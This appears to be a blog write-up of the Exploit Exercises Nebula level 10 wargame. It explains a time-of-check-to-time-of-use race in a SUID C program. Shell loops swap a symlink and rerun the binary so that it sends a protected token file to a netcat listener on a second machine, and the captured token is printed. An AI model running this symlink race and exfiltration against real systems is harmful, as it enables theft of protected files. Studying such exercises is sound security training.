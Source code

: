 ```yaml
---
title: "Exploit Exercises - Nebula 10"
date: "2011-12-11T07:48:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


[Challenge 10](http://exploit-exercises.com/nebula/level10) is another nostalgic one for me. Back when I was first starting with linux, I remember reading about overflows and race conditions.  This challenge is the latter, a race condition. 

<!-- more -->

We're given a C/C++ app to exploit:

```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
 char *file;
 char *host;

 if(argc < 3) {
  printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
  exit(1);
 }

 file = argv[1];
 host = argv[2];

 if(access(argv[1], R_OK) == 0) {
  int fd;
  int ffd;
  int rc;
  struct sockaddr_in sin;
  char buffer[4096];

  printf("Connecting to %s:18211 .. ", host); fflush(stdout);

  fd = socket(AF_INET, SOCK_STREAM, 0);

  memset(&sin, 0, sizeof(struct sockaddr_in));
  sin.sin_family = AF_INET;
  sin.sin_addr.s_addr = inet_addr(host);
  sin.sin_port = htons(18211);

  if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
   printf("Unable to connect to host %s\n", host);
   exit(EXIT_FAILURE);
  }

#define HITHERE ".oO Oo.\n"
  if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
   printf("Unable to write banner to host %s\n", host);
   exit(EXIT_FAILURE);
  }
#undef HITHERE

  printf("Connected!\nSending file .. "); fflush(stdout);

  ffd = open(file, O_RDONLY);
  if(ffd == -1) {
   printf("Damn. Unable to open file\n");
   exit(EXIT_FAILURE);
  }

  rc = read(ffd, buffer, sizeof(buffer));
  if(rc == -1) {
   printf("Unable to read from file: %s\n", strerror(errno));
   exit(EXIT_FAILURE);
  }

  write(fd, buffer, rc);

  printf("wrote file!\n");

 } else {
  printf("You don't have access to %s\n", file);
 }
}
```

The problem with this code, is that it first checks to see if the user running the problem has access to the file (on line 24).  It then assumes for the rest of the execution of the program, that we *still* have access to it.  The point of this exercise is to trick the program by switching out the file while the program is running.  Hence a race condition. 

To set this one up, I used 2 machines, my Nebula machine, and another VM running [BackTrack Linux](http://www.backtrack-linux.org).  Any Linux should do, I just had this one handy.  The only requirement is [NetCat](http://nc110.sourceforge.net). 

On the BackTrack machine (10.1.1.132 for me), I ran 2 terminals.  The first contained:

```
root@bt:~# while :; do nc -l -p 18211 >> out.txt; done
```

The second contained:

```
root@bt:~# tail -f out.txt | grep -v ".oO Oo."
```

I ran both of these so that the first one would continuously open up a listening socket connection on port 18211 (per the vulnerable program), and append all information received to "out.txt".  The second command would continuously watch out.txt and output any lines that didn't have the little banner the vulnerable program uses.  That way I didn't get spammed with trash I didn't care about. 

Now on the Nebula machine, I ran 2 more terminals.  In the first, I ran:

```
level10@nebula:~$ while :; do ln -fs /tmp/token /tmp/token10; ln -fs /home/flag10/token /tmp/token10; done
```

And the second:

```
level10@nebula:~$ while :; do nice -n 20 ./flag10 /tmp/token10 10.1.1.132; done
```

These commands are pretty simple to pick apart.  They both are endless loops, just like the earlier NetCat session.  The first would create a symbolic link to /tmp/token10.  However, it would alternate between using /tmp/token (a blank file I made), and /home/flag10/token.  The idea is to try using /tmp/token when the access() is called in the vulnerable program, but then have /home/flag10/token be there when we actually send the file.  It's unreliable, but will eventually work.  The second command runs the vulnerable program, passing it the symlinked file and the BackTrack IP.  I used [nice](http://linux.about.com/library/cmd/blcmdl1_nice.htm), to lower the priority as low as possible, so that hopefully the symlinking loop would operate faster. 

When you have all of these terminals running, it's just a matter of time before you get the token sent to you.  Some iterations of flag10 will fail, some will succeed.  Just watch the second terminal on the BackTrack machine, and eventually you'll see the token come over.  You should see this flying across the screen:

>615a2ce1-b2b5-4c76-8eed-8aa5c4015c27

Just stop all the terminals, and you should be done with this challenge.  I did learn quite a bit on this one, as it was honestly my first race condition I'd ever had to exploit.  My original methodology was to use [GDB](http://www.gnu.org/s/gdb/) to start the program, and set a breakpoint after the initial access() was done.  Then switch the file manually, and resume.  This worked brilliantly, however I learned that when dealing with SUID programs, you can't use GDB on them, unless you run GDB as root.  This is a security design of Linux.  So instead, I had to go with the quirky commands.  I'm still interested in seeing if it could be done with a custom C++ app which would invoke flag10, and attach to the process using ptrace to duplicate my GDB idea.  I just don't know if it'll work or not.
